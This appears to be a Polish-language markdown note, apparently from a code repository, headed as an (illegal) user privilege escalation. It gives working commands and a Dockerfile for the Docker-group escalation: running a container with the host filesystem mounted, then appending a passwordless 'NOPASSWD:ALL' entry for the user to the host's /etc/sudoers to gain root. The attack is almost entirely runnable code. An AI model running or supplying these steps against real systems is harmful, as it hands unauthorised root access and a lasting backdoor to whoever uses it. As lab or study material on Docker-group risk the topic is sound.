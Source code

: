 # Eskalacja uprawnień użytkownika (nielegalna!)

Testowanie uprawnień i tworzenie pliku dockerfile

```bash
more /etc/passwd | grep <nazwa_usera> # sprawdzenie informacji odnośnie konkretnego użytkownika
id # sprawdzenie id aktualnie zalogowanego użytkownika
whoami # sprawdzenie, na jakiego usera jesteśmy zalogowani
getent group | grep docker # sprawdzenie grupy docker
getent group | grep user # sprawdzenie grupy user
sudo bash # próba uruchomemia programu jako root (weryfikacja poziomu uprawnień)
mkdir /home/user/folder # utworzenie katalogu roboczego
nano Dockerfile # otworzenie pliku dockerfile w edytorze nano (jeżeli nie istnieje, to zostanie utworzony)
```

Struktura pliku Dockerfile:
    - FROM debian:wheezy # żródłowy obraz OSa
    - ENV WORKDIR /folder # utworzenie zmiennej środowiskowej
    - RUN mkdir -p $WORKDIR # punkt montowania systemu plików
    - VOLUME $WORKDIR # ustawiemie woluminu
    - WORKDIR $WORKDIR # ustawienie przestrzeni roboczej

Dockerfile:

```docker
    FROM debian:wheezy
    ENV WORKDIR /folder
    RUN mkdir -p $WORKDIR
    VOLUME $WORKDIR
    WORKDIR $WORKDIR
```

Tworzenie, uruchamianie obrazu, wykorzystanie luki i ponowna weryfikacja uprawnień

```bash
docker ps # wyświetlenie listy uruchomionych aplikacji kontenerowych
docker build -t folder . # tworzenie pliku obrazu folder
docker run -v /:/folder -it folder /bin/bash # uruchamianie obrazu (montowanie systemu plików do wskazanej lokalizacji kontenera oraz wybranie trybu internatywnego (opcja -i), opcji wykorzystania terminala (opcja -t), nazwy kontenera (tutaj folder) i powłoki OSa (tutaj /bin/bash) )
echo "user ALL=(ALL) NOPASSWD:ALL" >> /folder/etc/sudoers # dodanie użytkownika do grupy sudoers (dopisanie do pliku /etc/sudoers hosta)
exit # zakończenie pracy z poziomu kontene
sudo bash # wetyfikacja uprawnień
id # sprawdzenie id aktualnie zalogowanego użytkownika
whoami # sprawdzenie, na jakiego usera jesteśmy zalogowani
cd ~ # przejście do katalogu domowego użytkownika
pwd # wyświetlenie ścieżki do aktualnego folderu
```
